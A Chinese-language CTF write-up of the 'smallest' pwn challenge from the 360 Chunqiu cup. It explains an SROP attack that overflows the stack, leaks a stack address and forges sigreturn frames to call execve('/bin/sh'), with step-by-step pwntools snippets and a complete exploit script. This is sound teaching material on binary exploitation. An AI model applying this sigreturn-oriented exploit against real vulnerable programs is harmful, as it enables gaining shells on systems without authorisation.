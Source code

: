 ## 360 春秋杯 smallest-pwn

### 基本情况

只有几行汇编，通过系统调用号 0 调用 read 向 buf 写入 0x400 字节，造成栈溢出。

直观可以看到一个 gadget ：``syscall;ret;`` ，这是 srop 非常典型的 gadget 。

### 思路

由于程序中并没有 sigreturn 调用，所以我们得自己构造，正好这里有 read 函数调用，所以我们可以通过 read 函数读取的字节数来设置 rax 的值。重要思路如下

- 通过控制 read 读取的字符数来设置 RAX 寄存器的值，从而执行 sigreturn
- 通过 syscall 执行 execve("/bin/sh",0,0) 来获取 shell。

基本流程为

- 读取三个程序起始地址
- 程序返回时，利用第一个程序起始地址读取地址，修改返回地址 (即第二个程序起始地址) 为源程序的第二条指令，并且会设置 rax=1
- 那么此时将会执行 write(1,$esp,0x400)，泄露栈地址。
- 利用第三个程序起始地址进而读入 payload
- 再次读取构造 sigreturn 调用，进而将向栈地址所在位置读入数据，构造 execve('/bin/sh',0,0)
- 再次读取构造 sigreturn 调用，从而获取 shell。

#### step 0

溢出写入 3 个程序起始地址（start_addr），用于 step012 结束后返回程序开始位置。

```python
# ==step0==
payload = p64(start_addr) * 3	#step012
p.send(payload)
```

#### step 1

首先是要写入 1 字节，让 rax 变成 1 （write 系统调用号）。然后是需要修改跳转地址到 ``0x4000B3`` 绕开 xor ，保持 rax 的值，刚好写入指针指向的是 step 1 的返回地址，step 0 提前布置写入了 start_addr ，这里刚好覆盖最后一字节。

```python
# ==step1==
## modify the return addr to start_addr+3
## so that skip the xor rax,rax; then the rax=1
p.send('\xb3')	# 第二个start_addr
				# 写入一个字节，让rax变成1，也就是系统调用号1 write
				# 同时这个是覆盖写入第二个start_addr最低字节，直接控制跳转0x4000B3保存rax的值
```

#### step 2

接收地址，正常跳转回 start_addr 

```python
# ==step2==
stack_addr = u64(p.recv()[8:16])	# 接受rsp下一个内存块中的栈地址
									# 第三个start_addr
log.success('leak stack addr :' + hex(stack_addr))
```

#### step 3

写入伪造的 SigreturnFrame 。写入的指针又是当前栈的返回地址，所以 payload 先填入返回地址 start_addr 。然后用 8 字节填充之后再写入 SigreturnFrame ，ROP 之后 rsp 会向高地址抬 8 个字节（指向这 8 个字节所在的地址），空出来放 step 4 的 syscall_ret 。sigframe 不去除前 8 字节的 rt_signalret 是留空间给 step 4 用作填充空间。

```python
# ==step3==
## make the rsp point to stack_addr
## the frame is read(0,stack_addr,0x400)
sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_read
sigframe.rdi = 0
sigframe.rsi = stack_addr
sigframe.rdx = 0x400
sigframe.rsp = stack_addr
sigframe.rip = syscall_ret
payload = p64(start_addr) + 'a' * 8 + str(sigframe)	# start_addr改写自己返回地址
p.send(payload)
```

#### step 4

syscall_ret 填充 'a'*8 ，\x00 填充 rt_sigreturn  。用 syscall_ret 主动恢复内存状态，就不需要用到 re_sigreturn 被动调用恢复内存状态。（这点是我根据其他类似题目 wp 中 str(sigframe[8:]) ，signal 栈帧前面是主动的 syscall(15) 调用  rt_signreturn ，就不需要 signal 栈帧中的 rt_signreturn 被动调用）

```python
# ==step4==
## set rax=15 and call sigreturn、
sigreturn = p64(syscall_ret) + '\x00' * 7	# 覆盖rt_sigreturn;填充15字节
											# 修改返回地址到syscall ret
p.send(sigreturn)
```

#### step 5

和 step 3 一样写入 signal 栈帧，这里写入的是 execve 的。

```python
# ==step5==
## call execv("/bin/sh",0,0)
sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_execve
sigframe.rdi = stack_addr + 0x120  # "/bin/sh" 's addr
sigframe.rsi = 0x0
sigframe.rdx = 0x0
sigframe.rsp = stack_addr
sigframe.rip = syscall_ret

frame_payload = p64(start_addr) + '\x00' * 8 + str(sigframe)	#start_addr 改写自己返回地址
print len(frame_payload)
payload = frame_payload + (0x120 - len(frame_payload)) * '\x00' + '/bin/sh\x00'
p.send(payload)
```

#### step 6

与 step 4 一样主动调用 rt_sigreturn 恢复内存状态。

```python
# ==step6==
p.send(sigreturn)	# 调用syscall
p.interactive()
```

### EXP

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
context(log_level='debug',arch='amd64')

p = process('./smallest')
small = ELF('./smallest')


syscall_ret = 0x00000000004000BE
start_addr = 0x00000000004000B0

# ==step0==
payload = p64(start_addr) * 3	#step012
p.send(payload)	#第一个start_addr

# ==step1==
## modify the return addr to start_addr+3
## so that skip the xor rax,rax; then the rax=1
p.send('\xb3')	# 第二个start_addr
				# 写入一个字节，让rax变成1，也就是系统调用号1 write
				# 同时这个是覆盖写入第二个start_addr最低字节，直接控制跳转0x4000B3保存rax的值
# ==step2==
stack_addr = u64(p.recv()[8:16])	# 接受rsp下一个内存块中的栈地址
									# 第三个start_addr
log.success('leak stack addr :' + hex(stack_addr))

# ==step3==
## make the rsp point to stack_addr
## the frame is read(0,stack_addr,0x400)
sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_read
sigframe.rdi = 0
sigframe.rsi = stack_addr
sigframe.rdx = 0x400
sigframe.rsp = stack_addr
sigframe.rip = syscall_ret
payload = p64(start_addr) + 'a' * 8 + str(sigframe)	#start_addr 改写自己返回地址
p.send(payload)

# ==step4==
## set rax=15 and call sigreturn、
sigreturn = p64(syscall_ret) + '\x00' * 7	# 覆盖rt_sigreturn;填充15字节
											# 修改返回地址到syscall ret
p.send(sigreturn)

# ==step5==
## call execv("/bin/sh",0,0)
sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_execve
sigframe.rdi = stack_addr + 0x120  # "/bin/sh" 's addr
sigframe.rsi = 0x0
sigframe.rdx = 0x0
sigframe.rsp = stack_addr
sigframe.rip = syscall_ret

frame_payload = p64(start_addr) + '\x00' * 8 + str(sigframe)	#start_addr 改写自己返回地址
print len(frame_payload)
payload = frame_payload + (0x120 - len(frame_payload)) * '\x00' + '/bin/sh\x00'
p.send(payload)
## ==step6==
p.send(sigreturn)	# 调用syscall
p.interactive()
```

### 参考文章

* [2017 429 ichunqiu ctf smallest(pwn300) writeup](https://blog.csdn.net/qq_29343201/article/details/72627439)
* [ctf-wiki](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/stackoverflow/advanced-rop-zh/#_11)